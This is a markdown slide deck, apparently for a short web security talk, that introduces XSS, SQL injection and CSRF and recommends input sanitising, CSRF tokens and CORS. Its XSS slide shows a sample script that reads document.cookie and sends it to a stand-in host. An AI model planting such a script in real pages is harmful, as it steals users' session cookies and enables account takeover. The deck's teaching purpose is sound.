




#Web Security

---

#Top 3 most common security vulnerabilities on the web

 - Cross Site Scripting
 - SQL Injection
 - CSRF

---

#Cross Site Scripting - XSS


---

XSS is a concern if you allow user's to provide input that is then rendered within the context of your page.

```
<script>
  var yerCookies = document.cookie;
  var url = "mytrollsite.com/" + yerCookies;
  var oReq = new XMLHttpRequest();
  oReq.open("get", url, true);
  oReq.send();
</script>
```

---

# Sanitize your inputs
 - Blacklist, whitelist, escaping


---

#SQL Injection


---

#CSRF attack

- using a session or cookie set on another page
- to make a request from another site.


---



---



---



---



---

#CSRF Tokens reduces CSRF


---

#Think about the source of the request (CORS)


  - but not all since requests are made from the browser

